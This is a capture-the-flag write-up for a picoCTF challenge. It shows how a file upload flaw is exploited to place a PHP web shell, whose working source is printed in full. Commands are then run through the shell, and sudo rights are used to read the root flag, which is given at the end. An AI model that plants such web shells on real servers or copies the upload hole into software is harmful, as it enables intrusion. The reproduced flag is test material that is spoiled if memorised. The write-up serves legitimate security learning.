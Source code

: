 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality


![flagoutput](../media/Screenshots/shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL



![flagoutput](../media/Screenshots/whoami-output-n0s4n1ty.png)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:


![flagoutput](../media/Screenshots/sudo-l-output-n0s4n1ty.png)


which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory


![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)


Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

